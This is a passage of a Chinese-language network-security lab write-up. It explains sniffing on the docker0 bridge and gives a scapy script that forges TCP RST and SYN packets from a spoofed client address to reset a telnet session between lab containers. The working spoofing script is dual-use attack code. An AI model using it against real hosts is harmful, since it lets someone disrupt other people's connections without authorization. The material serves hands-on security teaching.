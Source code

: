 docker0 相当于一个网桥，与docker 内的各个网络桥接，所以必须要监听这个网卡（个人理解）。实验截图如下所示：



![image-20230421211340093](pic\image-20230421211340093.png)





> 参考：什么是docker 0：https://blog.csdn.net/weixin_44234846/article/details/100688569
>
> 





#### 2.2.2  使用scapy 实现rst

参考源码：reset_manual.py，手动查看Sequence Number，填入其中

~~~python
#!/usr/bin/python3
from scapy.all import *

user="172.17.0.2"
server="172.17.0.3"
attacker="172.17.0.4"

sport=55500
seq=103634612

print("SENDING RESET PACKET.........")


ip = IP(src=user, dst=server)
tcp1 = TCP(sport=sport, dport=23,flags="R",seq=seq)

tcp2 = TCP(sport=sport, dport=23,flags="S",seq=1)

pkt1 = ip/tcp1
pkt2 = ip/tcp2

send(pkt1,verbose=0)
send(pkt2,verbose=0)

#for i in range(1,100):
	#send(pkt1,verbose=0)
	#send(pkt2,verbose=0)
	#ls(pkt)
~~~
